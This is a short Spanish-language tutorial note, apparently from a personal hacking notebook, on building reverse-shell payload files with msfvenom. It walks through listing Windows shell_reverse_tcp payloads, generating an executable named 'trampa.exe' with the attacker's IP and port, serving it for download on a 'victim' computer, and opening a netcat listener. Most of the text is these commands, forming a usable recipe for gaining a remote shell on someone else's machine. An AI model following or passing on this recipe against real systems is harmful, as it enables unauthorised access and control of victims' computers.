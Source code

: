 Vamos a aprender a crear ficheros que contengan payloads que nos permitan hacer una [[shell reversa]].

## Buscar ficheros

>`msfvenom -l payloads`
>Nos va a retornar todos los [[payloads]] que tienen disponibles esta herramienta (951 disponibles).

Si queremos los payloads para windows:

>`msfvenom -l payloads | grep windows`

Nos devuelve muchos resultados, para encontrar el adecuado, se recomienda buscar en el que ponga:

>`shell_reverse_tcp`
>Algo del estilo.

También podemos buscar archivos que sean del tipo php, py...

## Creación del fichero

>`msfvenom -p namePayload / pathPayload LHOST=ourIP LPORT=port -f exe -o trampa.exe`

**-p**: aquí se pone el nombre o path del payload, cómo se quiera mirar.

**LHOST**: aquí ponemos nuestra IP.

**LPORT**: el puerto por el que escuchamos.

**-f**: busca un fichero con extensión .exe.

**-o**: le da un nombre al archivo.

## Servidor web

Se recomienda (en el mundo del hacking) usar un servidor web en el que descargaremos este archivo.

No se hace nada del otro mundo, nos metemos desde el ordenador víctima y descargamos el archivo.

Ahora nos ponemos por escucha por el puerto por el que hemos especificado:

>`sudo nc -nlvp port`



